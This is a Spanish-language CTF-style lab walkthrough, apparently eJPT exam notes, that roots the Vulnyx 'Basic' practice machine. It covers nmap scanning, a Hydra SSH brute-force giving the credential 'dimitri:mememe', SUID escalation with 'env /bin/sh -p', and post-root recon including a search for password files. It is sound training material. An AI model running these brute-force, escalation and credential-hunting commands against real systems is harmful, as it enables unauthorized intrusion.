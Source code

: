  
----
- TAG: #Escalada-De-Privilegios #Linux #Binarios #SUID 
-----
## Escalada de Privilegios con Binarios SUID

En este apartado, repasaremos la escalada de privilegios utilizando binarios **SUID**. Realizaremos un ejercicio similar al anterior, pero con un binario y una máquina diferente.

### Requisitos

1. **Kali Linux** como máquina atacante.
2. **Vulnyx Basic** como máquina víctima - [Descargar aquí](https://vulnyx.com/#basic)
    - Importa la máquina en VirtualBox.
    - Configura el adaptador de red en modo puente.
    - Inicia la máquina.

### Pasos

1. Desde la máquina atacante (Kali Linux), utilizamos `arp-scan` para identificar la máquina víctima en la red local:

```bash
sudo arp-scan -I eth0 --localnet
```

2. Verifica la conectividad con la máquina víctima utilizando `ping` y determina el tipo de sistema:

```bash
ping -c 1 1.2.3.4
```

3. Realiza un escaneo con `nmap` para identificar posibles vulnerabilidades:

```bash
nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn 1.2.3.4 -oN escaneo
```
- **`-p-`**: Indicamos que se deben escanear **todos los puertos** (desde el 1 hasta el 65535).
- **`-sS`**: Realiza un **escaneo SYN**, que es más sigiloso que un escaneo TCP porque no establece una conexión completa.
- **`-sC`**: Usamos los **scripts por defecto** de Nmap
- **`-sV`**: Realizamos una **detección de versiones** de los servicios que estén ejecutándose en los puertos abiertos.
- **`--open`**: Solo muestra los **puertos abiertos**
- **`--min-rate=5000`**: Establece una tasa mínima de envío de paquetes de **5000 paquetes por segundo**
- **`-vvv`**: Nos muestra más detalles en tiempo real durante el escaneo.
- **`-n`**: Desactiva la resolución  DNS. Es decir, no intentará convertir las direcciones IP en nombres de dominio.
- **`-Pn`**: Indica que no se debe realizar un **ping previo** para verificar si el host está activo.
- **`-oN escaneo`**: Guarda el resultado del escaneo en un archivo llamado **`escaneo`** en formato normal (texto plano).

4. El escaneo revela que el puerto `80` está abierto. Accede al servicio web en ese puerto para investigar:

```bash
http://1.2.3.4
```

   En la página, vemos una plantilla de Apache, sin nada fuera de lo común.

5. El escaneo de `nmap` también muestra que los puertos `22`, `80` y `631` están abiertos. Al explorar el puerto `631`, encontramos un panel con varias opciones. Navegando a la sección `Printers`, encontramos un usuario llamado `dimitri`.

6. Dado que encontramos un usuario, podemos intentar un ataque de fuerza bruta para descubrir su contraseña. Como el puerto `22` (SSH) está abierto, utilizaremos **Hydra** para realizar el ataque:

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://1.2.3.4
```

   **Nota:** Este proceso puede tardar, ya que la contraseña se encuentra en las últimas entradas del diccionario.

7. Una vez encontrada la contraseña:

```bash
dimitri:mememe
```

   Intenta iniciar sesión en el protocolo SSH:
   
```bash
ssh dimitri@1.2.3.4
```

   Introduce la contraseña cuando se te solicite:

```bash
mememe
```

8. Ahora, procederemos a escalar privilegios, como se explicó en la clase anterior, aprovechando los binarios **SUID**. Para ello, utilizamos el siguiente comando:

```bash
find / -perm -4000 2>/dev/null
```

   Esto listará todos los binarios SUID en el sistema. Si identificas uno que no debería estar ahí, como `env` en este caso, puedes usar `GTFObins` para confirmar si es común o no.

9. Utilizando `env`, ejecutamos los pasos sugeridos para obtener privilegios elevados:

 ```bash
sudo install -m =xs $(which env) .
env /bin/sh -p
```

   Si todo sale bien, deberías estar dentro como usuario `root`.

Ahora podríamos ejecutar el comando que queramos para ver más información sobre la máquina:
- Ver servicios corriendo:
```bash
ps aux
```

- Identificar puertos abiertos:
```bash
netstat -tulnp
```

- Ver conexiones activas:
```bash
ss -tuln
```

- Ver interfaces de red y direcciones IP
```bash
ip a
```

- **Buscar otros dispositivos en la red:** Si tienes acceso a herramientas como `nmap`, puedes escanear otros dispositivos en la red:
```bash
nmap -sP 192.168.1.0/24
```

- Buscar archivos que contengan la palabra 'password' u otras credenciales:
```bash
find / -name "*password*" 2>/dev/null
```
### Conclusión

Dominar esta técnica es crucial, ya que en el examen eJPT, al menos en una máquina, será necesario realizar una escalada de privilegios.

---
